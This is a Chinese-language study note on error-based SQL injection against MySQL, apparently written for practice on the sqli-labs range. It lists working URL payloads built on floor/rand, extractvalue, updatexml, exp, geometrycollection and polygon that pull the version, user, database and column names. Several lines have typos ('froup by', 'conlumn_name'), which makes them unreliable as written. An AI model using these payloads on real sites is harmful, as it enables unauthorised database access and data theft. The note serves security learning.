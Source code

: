 #### 5.4.1 BUG报错

- 别名 oldname as newname（as可以不写）
- count() rand group by 三个函数连用会报错，要求数据库中条目大于3
- select concat(floor(rand(0)*2),”====”,(select **database()**)) as **x**, count(1) from **admin** group by **x**;

#### 5.4.2 函数报错

- floor
	原理是rand和order by或group by的冲突
	```sql
	#爆破数据库版本信息
	?id=1 and(select 1 from(select count(*),concat((select (select (select concat(0x7e,version(),0x7e))) from information_schema.tables limit 0,1),floor(rand(0)*2))x from information_schema.tables froup by x)a)%23
	#爆破当前用户
	?id=1 and(select 1 from(select count(*),concat((select (select (select concat(0x7e,user(),0x7e))) from information_schema.tables limit 0,1),floor(rand(0)*2))x from information_schema.tables froup by x)a)%23
	#爆破当前使用的数据库
	?id=1 and(select 1 from(select count(*),concat((select (select (select concat(0x7e,database(),0x7e))) from information_schema.tables limit 0,1),floor(rand(0)*2))x from information_schema.tables froup by x)a)%23
	#爆破指定表的字段（下面以表名为emails举例说明）
	?id=1 and(select 1 from(select count(*),concat((select (select (select distinct concat(0x7e,conlumn_name,0x7e) from information_schema.columns where table_name=0x656d616973 limit 0,1)) from information_schema.tables limit 0,1),floor(rand(0)*2))x from information_schema.tables froup by x)a)%23
	```
	这里采用十六进制编码后的表名，若像用非十六进制的则需要添加引号，但此时可能导致单引号报错。
	以上payload可在[[../TargetRange/sqli-labs|sqli-labs]]的level1中复现
  ​	(select 1 from (select count(\*),concat(version(),floor(rand(0)\*2))x from information_schema.table group by x)a);

- extractvalue

  ​	extractvalue(1,concat(0x5c,(select table_name from information_schema.table limit 1)));

- ==updatexml==
	```sql
	1=(update(concat(0x3a,(select database())),1));
	?id=1' updatexml(1,concat(0x7e,(SELECT version()),0x7e),1)%23
	```
	
	其他功能的payload可参照floor的使用方法来修改
- exp

  ​	exp (~(select * from (select user() a)))

- geometrycollection

  ​	geometrycollection((select * from (select * from(select user())a)b));

- polygon

  ​	polygon((select * from (select * from(select user())a)b));
